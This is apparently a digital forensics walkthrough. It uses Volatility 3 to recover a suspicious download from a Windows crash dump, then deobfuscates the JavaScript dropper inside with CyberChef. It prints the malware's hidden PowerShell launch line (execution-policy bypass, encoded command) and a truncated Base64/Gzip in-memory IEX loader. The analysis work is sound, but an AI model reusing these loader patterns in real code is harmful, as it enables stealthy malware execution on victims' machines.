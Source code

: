 Volatiliy 3 can be used to extract system information from a crash dump almost like a system image, so we'll use it to search into it and look for the artifacts we need.

If we're told that we need to analyze the malware, and we know that the malware was downloaded to the machine, we can use Volatility to search within the Downloads folder for suspicious artifacts.

To do that, we can scan the machine files using the Volatility FileScan plugin:
```bash
$ python3 vol.py -f "~/WRK01-20240512-195957.dmp" windows.filescan.FileScan
```

If you search for "Downloads" in the output, you'll find one suspicious artifact:
```bash
0xe0845f8cacf0	\Users\CSCPT\Downloads\urgent (1).zip	216
```

Now, we can dump the file using the previously obtained offset and the DumpFiles plugin:
```bash
$ python3 vol.py -f "~/WRK01-20240512-195957.dmp" windows.dumpfiles.DumpFiles --virtaddr 0xe0845f8cacf0
...
Cache	FileObject	FileName	Result

DataSectionObject	0xe0845f8cacf0	urgent (1).zip	file.0xe0845f8cacf0.0xe084616437d0.DataSectionObject.urgent (1).zip.dat
```

If you try to extract it you can't, because it's not actually a zip file. If you output its contents you'll obtain the following:
```bash
$ cat file.0xe0845f8cacf0.0xe084616437d0.DataSectionObject.urgent (1).zip.dat
[ZoneTransfer]
ZoneId=3
HostUrl=https://dfir.pt/urgent.zip
```

Hit the link to download the file (`md5sum:8e8f34857a5d2e1b5d48baee55c0262e`). 

#### Deaobfuscating JavaScript and Powershell using Cyberchef

Extract it and you'll get the file `Urgent.docx.js`. This file contains obfuscated JavaScript content. You can see that in the end there's an `ActiveXObject`, which is often used to execute arbitrary code. You can also see that the content being passed as the argument to that new object appears to be a PowerShell script:
```bash
pOWErShElL.ExE\x20-ExecutionPolicy\x20bypass\x20-nOExiT\x20-noPrOfIlE\x20-winDowsTyle\x20hidDEN\x20/e\x20JABzAD0...
```
By replacing the `\x20` characters with actual spaces, we can see that the code tries to execute a hidden PowerShell console, where the payload starts with `JABzAD0...`.

If you decode that payload from Base64 and remove the null characters (using CyberChef for example), you'll get the following PowerShell script:
```powershell
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sI...AAA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
